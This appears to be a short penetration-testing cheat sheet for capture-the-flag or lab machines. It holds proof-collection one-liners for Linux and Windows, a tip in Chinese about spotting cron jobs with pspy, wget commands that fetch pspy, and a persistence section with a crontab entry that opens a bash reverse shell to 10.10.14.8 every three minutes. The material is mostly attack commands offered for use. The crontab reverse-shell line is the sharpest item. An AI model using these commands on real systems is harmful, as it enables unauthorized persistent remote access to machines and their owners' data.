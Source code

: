 # Proof

_Linux_

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

_Windows_

```powershell
 echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```


# Privilege Escalation

tips1: pspy发现的定时任务命令，可以用grep搜索一下，可能隐藏在某个脚本文件中。


# Download Tool
pspy64
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

pspy32
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```
# Persistence

_Crontab_

```bash
(crontab -l ; echo "*/3 * * * *   	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

